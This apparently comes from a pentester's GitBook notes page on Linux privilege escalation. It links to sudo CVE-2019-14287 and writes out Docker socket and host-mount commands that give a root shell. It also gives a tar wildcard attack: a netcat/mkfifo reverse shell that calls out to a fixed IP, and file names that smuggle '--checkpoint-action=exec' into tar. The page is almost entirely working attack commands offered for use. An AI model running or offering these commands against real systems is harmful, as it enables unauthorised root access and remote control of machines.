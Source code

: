 # Interesting Findings

## Sudo CVE

<figure><img src="../.gitbook/assets/image (12).png" alt=""><figcaption><p>sudo <a href="https://access.redhat.com/security/cve/cve-2019-14287">CVE-2019-14287</a></p></figcaption></figure>

Read more: [https://www.mend.io/blog/new-vulnerability-in-sudo-cve-2019-14287/](https://www.mend.io/blog/new-vulnerability-in-sudo-cve-2019-14287/)

## Docker

```bash
docker -H unix:///var/run/docker.sock run -v /:/host -it alpine chroot /host /bin/bash
```

Docker shell bypass and privesc to root

```bash
docker run -v /:/mnt --rm -it bash chroot /mnt sh
```

## Tar Wildcard

```bash
echo "mkfifo /tmp/lhennp; nc 192.168.1.102 8888 0</tmp/lhennp | /bin/sh >/tmp/lhennp 2>&1; rm /tmp/lhennp" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
tar cf archive.tar *
```

